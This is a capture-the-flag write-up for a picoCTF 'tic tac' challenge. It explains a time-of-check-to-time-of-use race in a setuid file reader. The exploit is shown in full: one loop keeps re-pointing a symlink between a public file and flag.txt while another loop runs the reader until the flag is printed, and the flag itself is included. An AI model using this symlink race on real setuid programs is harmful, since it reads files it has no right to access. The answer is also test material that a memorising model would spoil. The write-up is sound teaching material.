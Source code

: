 # solution of tic tac challenge

1- this challenge is about the race condition vulnerability

2- explanation of the program:

``` text
- we havesetuid program that reads a file only if uid of file owner and  uid of the session are the same {stat.st_uid == getuid()}
```

3- to do this we need to create a soft link between the flag.txt file and a file that we own

- create the file:

```bash
    ctf-player@pico-chall$ echo " public flag " > public.txt
    ctf-player@pico-chall$ ./txtreader public.txt 
    public flag 
```

- we create a soft link to the public file:

```bash
ctf-player@pico-chall$ ln -s public.txt soft
ctf-player@pico-chall$ ./txtreader soft 
 public flag 
```

- now we create an infinite loop of forcing the creation of soft links between the soft file and the flag.txt and the public file:

```bash
ctf-player@pico-chall$ while [ 1 ]; do ln -sf flag.txt soft;ln -sf public.txt soft;done &
[1] 44
```

- now we create an infinite loop to catch the creation of soft links between the soft file and the flag.txt

```bash
ctf-player@pico-chall$ while [ 1 ]; do ./txtreader soft;done 2>/dev/null | grep pico
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
picoCTF{ToctoU_!s_3a5y_2075872e}
```
